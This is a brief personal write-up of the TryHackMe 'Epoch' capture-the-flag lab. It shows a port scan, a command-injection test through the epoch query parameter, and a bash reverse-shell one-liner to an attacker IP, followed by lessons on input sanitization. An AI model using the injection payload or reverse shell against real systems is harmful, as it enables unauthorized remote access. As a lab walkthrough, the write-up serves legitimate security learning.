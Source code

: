 # Hack Log 10 - TryHackMe [Epoch](https://tryhackme.com/room/epoch)

📆:**Date:** 2025-07-23  
🔍**Objective:** Obtain the flag.   
🎯**Target**: TryHackme Epoch (Lab CTF)  

---  

## 🛠️ Actions Taken  

### Port and Service Enumeration  

```
nmap -sV 10.10.248.27
```

| Port    | Service  | Description                    |
|---------|----------|--------------------------------|
| 22 | ssh    | OpenSSH 8.2p1 |                 |
| 80 | http     | Apache httpd                  |  



### Command Injection  

→ Upon visiting the home page, found an input field to convert epoch to UTC.  
→ The query parameter is defined as "http://10.10.248.27/?epoch="  
→ Injecting 
  ```bash
    ;ls
  ```
  - Results in outputting directory contents, confirming command injection.

### Exploitation  
→ Injected
  ```bash
  bash -i >& /dev/tcp/10.10.39.4/1234 0>&1
  ```
  - Succesfully received a reverse shell.  
→ Printing the system variables revealed the hidden flag.


## 🔍 Key Findings

→ Command injection in the input field which lead to further exploitation.  

## 📚 What I Learned

→ This was a very easy but nevertheless in real environments it is better to sanitize user input before processing them as commands.  
→ Designing alternate ways to process user input instead of passing them directly as the commands to be executed is more secure.  
 
